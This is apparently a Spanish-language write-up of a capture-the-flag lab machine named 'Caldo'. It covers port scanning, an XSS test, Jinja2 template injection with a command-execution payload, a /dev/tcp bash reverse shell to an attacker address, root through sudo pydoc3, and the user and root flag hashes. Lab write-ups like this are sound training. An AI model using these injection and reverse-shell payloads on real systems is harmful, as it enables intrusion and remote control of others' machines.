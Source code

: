 nmap: 192.168.1.130

![image](https://github.com/user-attachments/assets/04153be9-dbfa-42ee-9f66-3fdf4d03ee92)

al entrar al puerto 80 no hay nada mas que un apache, así que ingresamos por el puerto 8089

![image](https://github.com/user-attachments/assets/a3aa1ef4-3c4b-431a-ab69-5d1d3cd2cd5e)


vemos que podemos colocar muchas cosas ahí, así que probé inyectando un XSS

![image](https://github.com/user-attachments/assets/bad02228-eb0e-4ffd-bb19-5f9b5282d3aa)

y funciona la inyección XSS 

ahora probaremos un ataque SSTI 
una explicación rápida y buena con ejemplos: https://book.hacktricks.wiki/en/pentesting-web/pocs-and-polygloths-cheatsheet/index.html?highlight=%7B%7B7*7%7D%7D#basic-tests-8

![[ssti.png]]

y funciona, porque nos devuelve el valor 

![[ssti2.png]]

de la misma pagina de explicacion encontre este comando

     {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

como se ve en el código podemos ver que que hay un 'id' o sea que al lanzarlo por el ejecutable que hay ahí nos debería mostrar usuarios y grupo. 

![[grupo.png]]

al igual que whoami porque podemos ver que nos muestra el usuario caldo
![[caldo1.png]]

ahora vamos a lanzar una reverse y colocar el puerto en escucha

lanzamos:

     {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/192.168.1.108/1234 0>&1\'').read() }}


![[reverse.png]]

y estamos dentro y también de primero nos da la flag de usuario

![[user1.png]]

al hacer un sudo -l  vemos que a nivel de sudoers podemos ejecutar el binario pydoc3 para generar documentación a partir de módulos de Python.
y en un blog chino https://cloud.tencent.com.cn/developer/information/%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8Blinux%E4%B8%8A%E7%9A%84ftp que se tradujo a español encontré este comando

     sudo pydoc3 -b 8888

que si lo ejecutamos nos mandara aquí

![[the hackers labs/avanzado/caldo de avecren/ejecucion1.png]]

colocamos

     !/bin/sh


nos saldremos y haremos un bash -p

![[the hackers labs/avanzado/caldo de avecren/root.png]]

y seremos root! 





f3e431cd1129e9879e482fcb2cc151e8 user
44df858281024b69291f503f8921136c root
